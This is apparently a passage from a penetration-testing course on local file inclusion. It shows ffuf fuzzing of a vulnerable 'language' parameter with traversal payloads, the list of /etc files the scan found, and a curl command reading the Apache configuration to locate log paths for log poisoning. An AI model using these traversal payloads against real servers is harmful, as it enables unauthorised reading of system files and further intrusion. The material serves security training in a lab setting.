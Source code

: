As we have seen in the previous section, we need to be able to identify the correct logs directory to be able to perform the log poisoning attacks we discussed. Furthermore, as we just discussed, we may also need to read the server configurations to be able to identify the server webroot path and other important information (like the logs path!).

To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:


```shell-session
smoothment@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:


```shell-session
smoothment@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```
